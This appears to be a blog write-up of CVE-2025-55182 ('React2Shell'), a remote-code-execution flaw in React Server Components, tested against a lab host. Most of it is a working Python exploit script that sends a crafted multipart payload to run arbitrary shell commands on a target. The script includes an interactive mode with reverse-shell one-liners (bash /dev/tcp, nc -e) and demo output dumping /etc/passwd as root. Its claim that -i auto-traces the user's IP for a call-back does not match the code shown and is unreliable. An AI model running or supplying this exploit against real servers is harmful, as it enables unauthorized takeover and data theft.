



React2Shell with Python Automation: Getting Pwned in One Minute
Overview
This vuln is CVSS 10.0 pre-authentication RCE affecting React Server Components. Amid the flood of fake proof-of-concept exploits, scanners, exploits, and widespread misconceptions, this technical analysis intends to cut through the noise.
In a way, this is a very massive 0 day and very dangerous CVE on React, which highly used in Web and Production. An exploits emerged for React2Shell, a critical vulnerability in React Server Components affecting React 19 and frameworks that use it like Next JS.

React2Shell Analysis CVE-2025-55182
Which is a pre-authentication remote code execution vulnerability exists in React Server Components versions 19.0.0, 19.1.0, 19.1.1, and 19.2.0 including the following packages: react-server-dom-parcel, react-server-dom-turbopack, and react-server-dom-webpack.
The vulnerable code unsafely deserializes payloads from HTTP requests to Server Function endpoints.
Simple Exploit Explained
This section demonstrates that exploitation doesn't require complex setup: just a single HTTP request. The complete payload requires no __proto__ access (contrary to many circulating PoC that use it):
{
0: {
status: "resolved_model",
reason: -1,
_response: {
_prefix: "console.log('RCE')//",
_formData: { get: "$1:then:constructor" },
},
then: "$1:then",
value: '{"then":"$B"}',
},
1: "$@0",
}
Most people uses RSC Security Tool Extension, however I've created this Python script to automated this processes
#!/usr/bin/env python3
"""
React2Shell Exploit for covering CVE-2025-55182
"""
import requests
import sys
import argparse
import re
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def create_multipart_body(command):
"""
Generate the exact multipart payload that matches the working PoC
"""
injection = (
f"var res=process.mainModule.require('child_process')"
f".execSync('{command}',{{'timeout':5000}}).toString(). trim();;"
f"throw Object.assign(new Error('NEXT_REDIRECT'), {{digest:`${{res}}`}});"
)
payload_json = json.dumps({
"then": "$1:__proto__:then",
"status": "resolved_model",
"reason": -1,
"value": "{\"then\":\"$B1337\"}",
"_response": {
"_prefix": injection,
"_chunks": "$Q2",
"_formData": {
"get": "$1:constructor:constructor"
}
}
})
boundary = "----WebKitFormBoundaryx8jO2oVc6SWP3Sad"
body = (
f"------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
f"Content-Disposition: form-data; name=\"0\"\r\n"
f"\r\n"
f"{payload_json}\r\n"
f"------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
f"Content-Disposition: form-data; name=\"1\"\r\n"
f"\r\n"
f"\"$@0\"\r\n"
f"------WebKitFormBoundaryx8jO2oVc6SWP3Sad\r\n"
f"Content-Disposition: form-data; name=\"2\"\r\n"
f"\r\n"
f"[]\r\n"
f"------WebKitFormBoundaryx8jO2oVc6SWP3Sad--"
)
return body, boundary
def extract_output(response_text):
"""
Extract command output from RSC response
The output appears in format: 1:E{"digest":"OUTPUT_HERE"}
"""
patterns = [
r'1:E\{"digest":"([^"]*)"\}',
r'"digest":"([^"]*)"',
r'"digest":`([^`]*)`',
r'E\{"digest":"([^"]*)"\}',
]
for pattern in patterns:
match = re. search(pattern, response_text)
if match:
output = match.group(1)
output = output.replace('\\n', '\n')
output = output.replace('\\t', '\t')
output = output.replace('\\r', '\r')
return output
return None
def exploit(target, command, proxy=None, verbose=False):
"""Execute the exploit"""
url = target. rstrip('/')
body, boundary = create_multipart_body(command)
headers = {
"User-Agent": "Mozilla/5. 0 (Windows NT 10. 0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0. 0",
"Next-Action": "x",
"X-Nextjs-Request-Id": "b5dce965",
"X-Nextjs-Html-Request-Id": "SSTMXm7OJ_g0Ncx6jpQt9",
"Content-Type": f"multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad",
}
proxies = {"http": proxy, "https": proxy} if proxy else None
try:
if verbose:
print(f"[DEBUG] Sending request to {url}")
print(f"[DEBUG] Command: {command}")
response = requests.post(
url,
data=body,
headers=headers,
proxies=proxies,
verify=False,
timeout=15
)
if verbose:
print(f"[DEBUG] Status: {response.status_code}")
print(f"[DEBUG] Response:\n{response.text[:500]}")
output = extract_output(response.text)
if output:
return True, output
else:
return False, f"Could not parse output. Raw response:\n{response.text}"
except requests.exceptions.Timeout:
return False, "Request timed out (command may still have executed)"
except Exception as e:
return False, str(e)
def main():
parser = argparse.ArgumentParser(
description='React2Shell Exploit - CVE-2025-55182',
formatter_class=argparse.RawDescriptionHelpFormatter,
epilog="""
Examples:
python3 CVE-2025-55182.py -t https://dev.target.local -c "id"
python3 CVE-2025-55182.py -t https://dev.target.local -c "cat /etc/passwd"
python3 CVE-2025-55182.py -t https://dev.target.local -i
python3 CVE-2025-55182.py -t https://dev.target.local -c "whoami" -v
"""
)
parser.add_argument('-t', '--target', required=True, help='Target URL')
parser.add_argument('-c', '--command', default='id', help='Command to execute')
parser.add_argument('-p', '--proxy', help='Proxy URL (e.g., http://127.0.0.1:8080)')
parser.add_argument('-i', '--interactive', action='store_true', help='Interactive mode')
parser.add_argument('-v', '--verbose', action='store_true', help='Verbose output')
args = parser.parse_args()
banner = r"""
.______ _______ ___ ______ .___________. __ __ _______. __ __ _______ __ __
| _ \ | ____| / \ / || || | | | / || | | | | ____|| | | |
| |_) | | |__ / ^ \ | ,----'`---| |----`| | | | | (----`| |__| | | |__ | | | |
| / | __| / /_\ \ | | | | | | | | \ \ | __ | | __| | | | |
| |\ \----.| |____ / _____ \ | `----. | | | | | | .----) | | | | | | |____ | `----.| `----.
| _| `._____||_______/__/ \__\ \______| |__| |__| |__| |_______/ |__| |__| |_______||_______||_______|
"""
print(banner)
if args.interactive:
print(f"[*] Interactive mode - Target: {args.target}")
print("[*] Type 'exit' or 'quit' to exit")
print("[*] Type 'shell' for reverse shell helper\n")
while True:
try:
cmd = input("\033[91mreact2shell\033[0m> ").strip()
if cmd.lower() in ['exit', 'quit']:
print("[*] Exiting...")
break
if not cmd:
continue
if cmd.lower() == 'shell':
print("\n[*] Reverse Shell Commands:")
print(" bash -c 'bash -i >& /dev/tcp/YOUR_IP/9001 0>&1'")
print(" nc -e /bin/sh YOUR_IP 9001")
print(" rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f")
print("")
continue
if cmd.lower() == 'help':
print("\n[*] Commands:")
print(" - Execute on target")
print(" shell - Show reverse shell helpers")
print(" exit/quit - Exit interactive mode")
print("")
continue
success, output = exploit(args.target, cmd, args.proxy, args.verbose)
if success:
print(output)
else:
print(f"\033[93m[-] {output}\033[0m")
except KeyboardInterrupt:
print("\n[! ] Interrupted")
break
except EOFError:
break
else:
print(f"[*] Target: {args.target}")
print(f"[*] Command: {args.command}\n")
success, output = exploit(args.target, args.command, args.proxy, args.verbose)
if success:
print(f"\033[92m[+] SUCCESS!\033[0m\n")
print(output)
else:
print(f"\033[91m[-] FAILED\033[0m\n")
print(output)
if __name__ == "__main__":
main() Let's use this in action.
CVE-2025-55182.py in Action
Let's say this is our target: http://react-rce.vuln:30502/
Target Overview
Which has no issue on the surfaces.
Let's now see how CVE-2025-55182.py in action look like:
┌──(kali㉿kali)-[~]
└─$ ls
CVE-2025-55182.pyUsage Help Overview with -h
┌──(kali㉿kali)-[~]
└─$ ./CVE-2025-55182.py -h
usage: CVE-2025-55182.py [-h] -t TARGET [-c COMMAND] [-p PROXY] [-i] [-v]
React2Shell Exploit - CVE-2025-55182
options:
-h, --help show this help message and exit
-t, --target TARGET Target URL
-c, --command COMMAND
Command to execute
-p, --proxy PROXY Proxy URL (e.g., http://127.0.0.1:8080)
-i, --interactive Interactive mode
-v, --verbose Verbose output
Examples:
python3 CVE-2025-55182.py -t https://dev.target.local -c "id"
python3 CVE-2025-55182.py -t https://dev.target.local -c "cat /etc/passwd"
python3 CVE-2025-55182.py -t https://dev.target.local -i
python3 CVE-2025-55182.py -t https://dev.target.local -c "whoami" -vFrom here I hope it can be seen how simple it is, -c for command RCE check, as universal supposed "whomai" are the best for all OS. And if you wanted to get call-back connection Shell just change the command to -i and you should get call-back.
PS, the -i would automatically trace your IP and use port 9001, so make sure it's not on use when launch.
Out-come from -c [command]
┌──(kali㉿kali)-[~]
└─$ ./CVE-2025-55182.py -t http://react-rce.vuln:30502/ -c id
.______ _______ ___ ______ .___________. __ __ _______. __ __ _______ __ __
| _ \ | ____| / \ / || || | | | / || | | | | ____|| | | |
| |_) | | |__ / ^ \ | ,----'`---| |----`| | | | | (----`| |__| | | |__ | | | |
| / | __| / /_\ \ | | | | | | | | \ \ | __ | | __| | | | |
| |\ \----.| |____ / _____ \ | `----. | | | | | | .----) | | | | | | |____ | `----.| `----.
| _| `._____||_______/__/ \__\ \______| |__| |__| |__| |_______/ |__| |__| |_______||_______||_______|
[*] Target: http://react-rce.vuln:30502/
[*] Command: id
[+] SUCCESS!
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
Another example:
┌──(kali㉿kali)-[~]
└─$ ./CVE-2025-55182.py -t http://react-rce.vuln:30502/ -c "ls -ltr"
.______ _______ ___ ______ .___________. __ __ _______. __ __ _______ __ __
| _ \ | ____| / \ / || || | | | / || | | | | ____|| | | |
| |_) | | |__ / ^ \ | ,----'`---| |----`| | | | | (----`| |__| | | |__ | | | |
| / | __| / /_\ \ | | | | | | | | \ \ | __ | | __| | | | |
| |\ \----.| |____ / _____ \ | `----. | | | | | | .----) | | | | | | |____ | `----.| `----.
| _| `._____||_______/__/ \__\ \______| |__| |__| |__| |_______/ |__| |__| |_______||_______||_______|
[*] Target: http://react-rce.vuln:30502/
[*] Command: ls -ltr
[+] SUCCESS!
total 20
-rw-r--r-- 1 root root 558 Dec 5 14:40 package.json
-rw-r--r-- 1 root root 6331 Dec 5 14:40 server.js
drwxr-xr-x 13 root root 4096 Dec 5 14:40 node_modules
drwxr-xr-x 2 root root 4096 Dec 5 14:40 public
Which is dope yeah, we can now saw everything.
And lastly the -i for interactive shell command:
┌──(kali㉿kali)-[~]
└─$ ./CVE-2025-55182.py -t http://react-rce.vuln:30502/ -i
.______ _______ ___ ______ .___________. __ __ _______. __ __ _______ __ __
| _ \ | ____| / \ / || || | | | / || | | | | ____|| | | |
| |_) | | |__ / ^ \ | ,----'`---| |----`| | | | | (----`| |__| | | |__ | | | |
| / | __| / /_\ \ | | | | | | | | \ \ | __ | | __| | | | |
| |\ \----.| |____ / _____ \ | `----. | | | | | | .----) | | | | | | |____ | `----.| `----.
| _| `._____||_______/__/ \__\ \______| |__| |__| |__| |_______/ |__| |__| |_______||_______||_______|
[*] Interactive mode - Target: http://react-rce.vuln:30502/
[*] Type 'exit' or 'quit' to exit
[*] Type 'shell' for reverse shell helper
react2shell> whoami
root
react2shell> cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
react2shell> exit
[*] Exiting...That's it, we manage to Pwned the React2Shell labs.

Shout Outs
To Researchers and News for this to Happened
Happy hacking!
Moreover, Proton me if you have further question and suggestion.